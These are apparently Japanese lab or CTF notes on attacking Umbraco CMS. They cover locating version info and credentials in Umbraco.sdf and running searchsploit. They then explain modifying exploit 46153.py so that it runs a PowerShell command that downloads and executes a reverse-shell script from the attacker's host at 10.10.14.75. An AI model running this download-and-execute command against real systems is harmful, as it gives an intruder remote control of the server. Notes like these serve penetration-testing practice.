





# umbracoCMS

[toc]

### URL

http://10.129.190.136/umbraco

### バージョン情報

```
Web.config
```

一番上の階層にあることが多い



### 認証情報

```bash
/App_Data/Umbraco.sdf
Strings Umbraco.sdf | head
```



### 脆弱性情報

```
searchsploit umbraco
```



### 46153.py

* `calc.exe`→`cmd.exe`に変更
* `strings cmd =""`に`/c powershell -c iex(New-object Net.Webclient).Downloadstring('http://10.10.14.75/Invoke-PowerShellTcp.ps1')`を追加する
* 事前に`/c ping 10.10.14.75`を設定して`tcpdump -i tun0 icmp`でテストする



テスト



